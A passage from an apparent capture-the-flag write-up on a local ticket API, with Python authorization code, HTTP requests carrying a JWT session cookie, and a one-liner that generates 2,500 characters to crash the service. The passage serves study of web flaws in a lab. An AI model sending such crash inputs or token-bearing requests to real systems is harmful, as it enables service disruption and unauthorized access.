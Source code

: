 ````sql
    if not response and session_data['is_staff']:
        return jsonify({'message': 'Ticket not found'}), 404
    
    if not response or session_data['user_id'] != response[0]:
        return jsonify({'message': 'You do not have permission to access this information'}), 403

    response = {"ticket_id": ticket_id, "user_id": response[0], "description": response[1], "messages":response[2]}
    
    return jsonify(response), 200
```

Make the GET request against ```/api/tickets/1``` to see the ticket.

```js
GET /api/tickets/1 HTTP/1.1
Host: 127.0.0.1:40010
...
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJpc19zdGFmZiI6ZmFsc2V9.G7eNHWV71md6EUPEm9cKqnkbAjN2oV30dJGWO7bUSJM
```

![10-OurTicket](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/04caa371-f17e-4747-843a-8af87a80e9a4)

Now let's try to add a message to it with a POST request.

```js
POST /api/tickets/1 HTTP/1.1
Host: 127.0.0.1:40010
...
Content-Type: application/json
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJpc19zdGFmZiI6ZmFsc2V9.G7eNHWV71md6EUPEm9cKqnkbAjN2oV30dJGWO7bUSJM

{
	"message":"Lorem ipsum"
}
```

![11-LoremIpsumMessage](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/782708c2-53d4-493d-8776-5b1366c2b5db)

Now we will make the GET request again to verify that our message has been added.

```js
GET /api/tickets/1 HTTP/1.1
Host: 127.0.0.1:40010
...
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJpc19zdGFmZiI6ZmFsc2V9.G7eNHWV71md6EUPEm9cKqnkbAjN2oV30dJGWO7bUSJM
```

![12-MessageAdded](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/f7109166-7a34-43ad-a0da-0bc4ae5e07ac)

Now let's generate our bunch of characters with Python.

```bash
$ python3 -c 'print("B"*2500)'
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBB...
```

And we make it crash.

````